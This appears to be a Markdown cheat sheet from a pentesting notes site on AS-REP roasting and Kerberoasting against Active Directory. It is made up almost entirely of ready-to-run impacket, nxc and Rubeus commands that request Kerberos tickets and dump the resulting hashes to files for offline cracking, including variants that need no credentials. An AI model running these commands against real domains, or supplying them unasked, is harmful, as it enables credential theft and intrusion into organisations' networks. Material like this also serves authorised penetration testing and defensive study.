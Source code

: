 ```yaml
---
title: "Kerberoasting"
date: 2024-7-6
tags: ["as_rep roasting", "impacket", "active directory", "ad", "domain controller", "Windows", "kerberoasting", "GetNPUsers"]
---
```


### AS_REP Roasting

{{< tab set1 tab1 active >}}Impacket{{< /tab >}}
{{< tab set1 tab2 >}}nxc{{< /tab >}}
{{< tabcontent set1 tab1 >}}

<div>

```console
# Multiple valid usernames
impacket-GetNPUsers <DOMAIN>/ -usersfile <USERS_FILE> -no-pass -dc-ip <DC>
```

```console
# Single user without creds
impacket-GetNPUsers -no-pass -dc-ip <TARGET> <DOMAIN>/<USER>
```

</div>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

<div>

```console
# Multiple valid usernames (nxc)
nxc ldap <TARGET> -u <USERS_FILE> -p '' --asreproast as_rep_hashes.txt
```

</div>

{{< /tabcontent >}}

<br>

---

### Kerberoasting (From Linux)

{{< tab set2 tab1 active >}}Impacket{{< /tab >}}
{{< tab set2 tab2 >}}nxc{{< /tab >}}
{{< tabcontent set2 tab1 >}}

<div>

```console
# Fix time skew
sudo ntpdate -s <DC> && impacket-GetUserSPNs -request '<DOMAIN>/<USER>:<PASSWORD>' -dc-ip <DC_IP>
```

</div>

<small>*Note: Times skew have to be within 5 minutes in kerberos*</small>

<div>

```console
# Kerberoasting without cred
sudo ntpdate -s <DC> && impacket-GetUserSPNs -no-preauth <USER_WITH_DONT_REQUIRE_PREAUTH> -usersfile <USERS_FILE> -dc-host <DC_IP> <DOMAIN>/
```

</div>

{{< /tabcontent >}}
{{< tabcontent set2 tab2 >}}

<div>

```console
nxc ldap <DC_IP> -u <USER> -p '<PASSWORD>' --kerberoasting kerberoast_hashes.txt
```

</div>

{{< /tabcontent >}}

### Kerberoasting (From Windows)

{{< tab set3 tab1 active >}}rubeus{{< /tab >}}
{{< tabcontent set3 tab1 >}}

<div>

```console
.\rubeus.exe kerberoast /creduser:<DOMAIN>\<USER> /credpassword:'<PASSWORD>'
```

</div>

{{< /tabcontent >}}


<br>